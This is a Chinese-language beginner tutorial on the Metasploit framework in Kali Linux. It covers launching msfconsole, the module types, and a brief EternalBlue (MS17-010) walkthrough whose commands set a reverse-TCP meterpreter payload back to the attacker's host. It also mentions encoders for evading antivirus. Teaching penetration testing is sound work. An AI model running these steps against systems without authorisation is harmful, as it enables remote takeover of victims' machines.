


# 网络安全入门：P87：Kali最强渗透工具——Metasploit 🛠️

在本节课中，我们将要学习Kali Linux中最强大的渗透测试框架——Metasploit。我们将了解它的核心功能、基本使用方法，并通过一个经典案例演示其威力。

## 概述

Metasploit Framework（简称MSF）是一个集成了渗透测试全流程功能的强大工具。它涵盖了从信息收集、漏洞扫描、漏洞攻击到后期利用和内网渗透的所有环节。其设计初衷是让复杂的漏洞攻击流程变得简单化，即使是初学者也能在短时间内掌握基本攻击方法。

上一节我们介绍了课程背景，本节中我们来看看如何实际操作这个强大的工具。

## 启动与界面

首先，我们需要在Kali Linux中启动Metasploit。以下是启动步骤。

### 打开终端与调整



打开Kali Linux的终端（Terminal）。若终端字体过小，可同时按住 `Ctrl`、`Shift` 和 `+` 键放大；同时按住 `Ctrl` 和 `-` 键则可缩小。此快捷键同样适用于其他Linux系统及部分开发环境。

### 切换用户权限

Linux系统有权限保护机制。为避免因权限不足导致的错误，我们需要切换至超级管理员 `root` 用户。

在终端中输入以下命令：
```bash
sudo su
```
系统会提示输入当前用户（默认为 `kali`）的密码。输入时屏幕不会显示任何字符，这是Linux的正常安全机制。输入正确密码并回车后，即可切换至 `root` 用户。

### 启动Metasploit

切换至 `root` 用户后，输入以下命令启动Metasploit控制台：
```bash
msfconsole
```
`msfconsole` 是Metasploit Framework的主要交互界面。`console` 意为控制台，是管理接口。`MSF` 是 `Metasploit Framework` 的简称。

启动后，你将看到类似 `msf6 >` 的提示符，这代表你已成功进入Metasploit 6版本的控制台。不同大版本间界面可能略有差异，建议使用最新版本。

## 核心功能与使用逻辑

成功启动后，我们来了解Metasploit的核心使用逻辑。它通过模块化的方式组织功能。

以下是Metasploit中主要的模块类型：
*   **辅助模块 (Auxiliary)**：用于执行信息收集、扫描、指纹识别等非直接攻击任务。
*   **攻击载荷模块 (Payload)**：指在成功利用漏洞后，在目标系统上执行的代码，用于建立连接、获取权限等。
*   **漏洞利用模块 (Exploit)**：指包含具体漏洞攻击代码的模块，用于利用目标系统的安全缺陷。
*   **编码器模块 (Encoder)**：用于对攻击载荷进行编码，以绕过杀毒软件或入侵检测系统的查杀。
*   **后渗透模块 (Post)**：指在成功获取目标系统访问权限后，用于进行内网渗透、权限维持、信息窃取等后续操作的模块。

用户通过选择并组合不同的模块，配置相关参数（如目标IP、端口、攻击载荷类型），最终执行完整的渗透测试流程。这使得复杂的攻击链得以简化为几个清晰的步骤。

## 经典案例：永恒之蓝漏洞利用

为了让大家更直观地理解，我们以著名的“永恒之蓝”漏洞为例，简述其在Metasploit中的利用过程。永恒之蓝是2017年曝出的一个Windows系统高危漏洞。

上一节我们介绍了MSF的基本模块，本节中我们通过一个案例来看看如何将它们组合使用。



### 漏洞背景

永恒之蓝漏洞存在于Windows系统的SMB服务中。SMB服务中文名为“服务器消息块”，主要用于文件共享和打印机共享，默认开放445端口。该漏洞是一个远程代码执行漏洞，攻击者无需任何权限即可利用此漏洞获取目标系统的最高控制权。该漏洞曾被用于制作席卷全球的勒索病毒。

从技术角度看，永恒之蓝属于Windows应用服务的缓冲区溢出漏洞。手动分析和编写此类漏洞的攻击脚本极其困难。对于渗透测试工程师而言，初期无需深入此方向，应优先掌握工具的使用。除非未来转向漏洞分析或安全研究岗位，再深入研究底层原理。

### 利用步骤简述

在Metasploit中利用该漏洞的大致流程如下：
1.  搜索并选择对应的漏洞利用模块：`use exploit/windows/smb/ms17_010_eternalblue`
2.  设置必要参数，主要是目标IP地址：`set RHOSTS [目标IP]`
3.  选择攻击成功后要执行的载荷，例如反弹Shell：`set payload windows/x64/meterpreter/reverse_tcp`
4.  设置监听主机的IP和端口：`set LHOST [你的IP]`， `set LPORT [监听端口]`
5.  执行攻击命令：`exploit`

如果目标存在漏洞且参数配置正确，攻击成功后，你将获得一个 `meterpreter` 会话，从而可以控制目标机器。

**请注意**：本教程及工具仅用于合法的安全测试和学习，严禁对未经授权的任何系统（尤其是国内的政府、事业单位及各类企业网站）进行攻击或测试，否则将承担法律责任。

## 总结

本节课中我们一起学习了Kali Linux中的核心渗透工具Metasploit Framework。我们了解了它的核心功能是集成并简化渗透测试的全流程。我们掌握了如何启动MSF控制台，并理解了其模块化的设计逻辑，包括辅助、攻击载荷、漏洞利用等模块。最后，我们通过“永恒之蓝”漏洞案例，简要了解了组合这些模块进行攻击的基本流程。请务必牢记，所有技术都应在合法和授权的范围内使用。